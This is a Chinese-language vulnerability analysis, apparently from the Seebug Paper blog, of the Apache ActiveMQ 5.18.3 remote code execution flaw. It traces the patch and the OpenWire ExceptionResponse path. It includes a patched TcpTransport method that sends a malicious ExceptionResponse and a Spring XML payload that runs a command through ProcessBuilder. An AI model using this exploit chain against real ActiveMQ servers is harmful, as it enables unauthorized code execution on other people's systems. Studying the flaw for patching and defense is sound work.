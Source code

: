 

# Apache ActiveMQ (版本 5.18.3) RCE 分析

**作者：X1r0z  
本文为作者投稿，Seebug Paper 期待你的分享，凡经采用即有礼品相送！投稿邮箱：paper@seebug.org**

中午吃饭的时候看到赛博昆仑发了 Apache ActiveMQ 的漏洞通告，于是去翻了翻 github commit，第一眼看感觉跟之前那个 spring-amqp 的漏洞差不多就偷个懒没复现，后来发现大伙都在看这个洞。自己之前没怎么接触过 ActiveMQ, 不过好在最后花了一点时间复现了出来，简单记录一下分析的思路。

![image-20231025204432557](assets/1699429306-6b1fe0ed79475dca935a8341d5165a57.png)

根据 diff 可以发现新版本为 BaseDataStreamMarshaller 类加入了 validateIsThrowable 方法

```java
public static void validateIsThrowable(Class<?> clazz) {
    if (!Throwable.class.isAssignableFrom(clazz)) {
        throw new IllegalArgumentException("Class " + clazz + " is not assignable to Throwable");
    }
}
```

然后经过一些简单的搜索可以发现 ExceptionResponseMarshaller 这个类，它是 BaseDataStreamMarshaller 的子类。

其 tightUnmarshal/looseUnmarshal 方法会调用 tightMarshalThrowable/looseMarshalThrowable, 最终调用到 BaseDataStreamMarshaller 的 createThrowable 方法，后者可以调用任意类的带有一个 String 参数的构造方法。

ExceptionResponseMarshaller 顾名思义就是对 ExceptionResponse 进行序列化/反序列化的类。

ExceptionResponse 的定义如下：

```java
package org.apache.activemq.command;

public class ExceptionResponse extends Response {
    public static final byte DATA_STRUCTURE_TYPE = 31;
    Throwable exception;

    public ExceptionResponse() {
    }

    public ExceptionResponse(Throwable e) {
        this.setException(e);
    }

    public byte getDataStructureType() {
        return 31;
    }

    public Throwable getException() {
        return this.exception;
    }

    public void setException(Throwable exception) {
        this.exception = exception;
    }

    public boolean isException() {
        return true;
    }
}
```

回到上面的 BaseDataStreamMarshaller

![image-20231025205332740](assets/1699429306-8f92314c289ad6c4d3773f8d1cd6adaf.png)

有若干 Marshal/unmarshal 方法，这里以 tightUnmarsalThrowable 为例。

![image-20231025205428485](assets/1699429306-26e28e3cb602fa2f72e73def85c5e349.png)

方法内部会获取 clazz 和 message, 然后调用 createThrowable。

找到对应的 tightMarshalThrowable

![image-20231025205540694](assets/1699429306-592cfe08981e65a1c48615107f79f734.png)

o 就是 ExceptionResponse 里面的 exception 字段 (继承了 Throwable), 然后分别将 o 的 className 和 message 写入序列化流。

到这里思路其实已经差不多了，我们只需要构造一个 ExceptionResponse 然后发给 ActiveMQ 服务器，之后 ActiveMQ 会自己调用 unmarshal, 最后触发 createThrowable。

下面只需要关注如何发送 ExceptionResponse 即可，参考网上的入门教程写了一个 demo。

```java
package com.example;

import org.apache.activemq.ActiveMQConnectionFactory;

import javax.jms.*;

public class Demo {
    public static void main(String[] args) throws Exception {

        ConnectionFactory connectionFactory = new ActiveMQConnectionFactory("tcp://localhost:61616");
        Connection connection = connectionFactory.createConnection();
        connection.start();
        Session session = connection.createSession();
        Destination destination = session.createQueue("tempQueue");

        MessageProducer producer = session.createProducer(destination);
        Message message = session.createObjectMessage("123");
        producer.send(message);

        connection.close();
    }
}
```

然后随便打几个断点试试 (注意在一次通信的过程中 ActiveMQ 会 marshal / unmarshal 一些其它的数据，调试的时候记得判断)。

`org.apache.activemq.openwire.OpenWireFormat#doUnmarshal()`

先获取 dataType, 然后根据它的值去 this.dataMarshallers 里面获取对应的序列化器。

![image-20231025210619045](assets/1699429306-d1d85240705186eafe675d69e333b059.png)

这个 dataType 其实对应的就是 Message 类内部的 `DATA_STRUCTURE_TYPE` 字段。

在 demo 中我们发送的是一个 ObjectMessage (ActiveMQObjectMessage) 对象，它的 dataType 是 26。

![image-20231025210805989](assets/1699429306-cdbde067d6c478693b89a5037ecaff9f.png)

而 ExceptionResponse 的 dataType 是 31, 对应上图中的 ExceptionResponseMarshaller。获取到了对应的序列化器之后，会调用它的 tightUnmarshal / looseUnmarshal 方法进一步处理 Message 内容。

![image-20231025210630931](assets/1699429306-e4bd2c8217b5855966d0e9b40f749b18.png)

我一开始的思路是去修改 ObjectMessage 的 `DATA_STRUCTURE_TYPE` 字段，把它改成 31 然后发送，后来想了一会发现不能这么搞，因为对于不同的 Message 类型，序列化器会单独进行处理，比如调用 writeXXX 和 readXXX 的类型和次数都不一样。

因为 ExceptionResponseMarshaller 也有 marshal 方法，所以思路就改成了如何去发送一个经由这个 marshaller 处理的 ExceptionResponse，后面开始调试 client 发数据的过程，给 OpenWireFormat 的 marshal 系列方法打个断点。

![image-20231025212245511](assets/1699429306-0dcb89ab4894d09470aee6da59f7571e.png)

调用栈往前翻可以找到 TcpTransport 这个类。

![image-20231025212419043](assets/1699429306-2de2ed3d6245cb0ff342936627332a98.png)

它的 oneway 方法会调用 wireFormat.marshal() 去序列化 command，command 就是前面准备发送的 ObjectMessage, 而 wireFormat 就是和它对应的序列化器。

那么我们只需要手动 patch 这个方法，将 command 改成 ExceptionResponse, 将 wireFormat 改成 ExceptionResponseMarshaller 即可，这里我没有分析 OpenWire 协议，而是用了一个比较取巧的办法。

在当前源码目录下新建一个 `org.apache.activemq.transport.tcp.TcpTransport` 类，然后重写对应的逻辑，这样在运行的时候，因为 classpath 查找顺序的问题，程序就会优先使用当前源码目录里的 TcpTransport 类。

然后是 createThrowable 方法的利用，这块其实跟 PostgreSQL JDBC 的利用类似，因为 ActiveMQ 自带 spring 相关依赖，那么就可以利用 ClassPathXmlApplicationContext 加载 XML 实现 RCE。

```java
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```

因为在 marshal 的时候会调用 `o.getClass().getName()` 获取类名，而 getClass 方法无法重写 (final), 所以我在这里同样 patch 了 `org.springframework.context.support.ClassPathXmlApplicationContext`, 使其继承 Throwable 类。

![image-20231025213315518](assets/1699429306-45ae38bfbca34f9d5d549abab4b3290f.png)

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

最后成功 RCE

![image-20231025213442268](assets/1699429306-5146db04705f7b2e27ce1c54ae2e30df.png)

**参考链接：**

1.  [https://github.com/apache/activemq/commit/958330df26cf3d5cdb63905dc2c6882e98781d8f](https://github.com/apache/activemq/commit/958330df26cf3d5cdb63905dc2c6882e98781d8f " https://github.com/apache/activemq/commit/958330df26cf3d5cdb63905dc2c6882e98781d8f")
    
2.  [https://github.com/apache/activemq/blob/1d0a6d647e468334132161942c1442eed7708ad2/activemq-openwire-legacy/src/main/java/org/apache/activemq/openwire/v4/ExceptionResponseMarshaller.java](https://github.com/apache/activemq/blob/1d0a6d647e468334132161942c1442eed7708ad2/activemq-openwire-legacy/src/main/java/org/apache/activemq/openwire/v4/ExceptionResponseMarshaller.java "https://github.com/apache/activemq/blob/1d0a6d647e468334132161942c1442eed7708ad2/activemq-openwire-legacy/src/main/java/org/apache/activemq/openwire/v4/ExceptionResponseMarshaller.java")
    

- - -

![Paper](assets/1699429306-446834a71d30acd0479540c0e3cdf1d3.jpeg) 本文由 Seebug Paper 发布，如需转载请注明来源。本文地址：[https://paper.seebug.org/3058/](https://paper.seebug.org/3058/)

